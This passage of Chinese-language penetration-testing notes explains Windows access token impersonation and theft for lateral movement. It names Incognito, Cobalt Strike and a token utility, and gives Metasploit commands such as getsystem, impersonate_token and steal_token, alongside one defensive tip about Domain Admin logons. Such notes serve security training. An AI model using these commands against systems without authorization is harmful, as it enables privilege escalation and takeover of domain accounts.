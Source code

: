 1. 在 [2.3.1](#2.3.1 Windows Access Token 介绍) 中提到，只有重启机器后才会清除 Token，那么可以使用：

    1. Incognito（单独的 exe 或 msf 中）
    2. PowerShell - Invoke - TokenManipulation.ps1
    3. Cobalt Strike - steal_token

    等工具来获取系统上已经存在的**模拟令牌**。

### 3.6 Access Token 令牌假冒防御措施

1. 禁止 Domain Admins 登录对外且未作安全加固的服务器，因为一旦服务器被入侵，域管的令牌可能会被攻击者假冒，从而控制 DC。如果想清除假冒，重启服务器即可。

## 4. 横向渗透

### 4.1 [Access Token 的窃取（需要拿到 Administrator 权限）](#3.5 Access Token 令牌假冒（需要拿到 Administrator 权限）)

1. incognito.exe：

    > https://github.com/chroblert/JCTokenUtil

    这里用的是别人改写后的工具，作用应该差不多。
    作者的 readme 给出了使用教程：
    ` TokenUtils.exe 模块名 参数`
    列出令牌和用户名：`TokenUtils.exe ListTokens`
    切换其他用户：`TokenUtils.exe Execute -u "用户名" -e cmd`

2. msf 中的 incognito 模块：
    ```bash
    # 列出 AccessToken
    list_tokens -u
    # 查看当前 token
    getuid
    # 提升至system 权限
    getsystem 
    # 模拟 system 用户，getsystem 命令就是实现了该命令。如果要模拟其他用户，将 token 名改为其他用户即可。
    impersonate_token "NT AUTHORITY\SYSTEM"
    # ps 查看进程 id 后，可以从具体进程窃取 token
    steal_token 1252
    # 返回到之前的 AccessToken 权限
    rev2self 
    ```
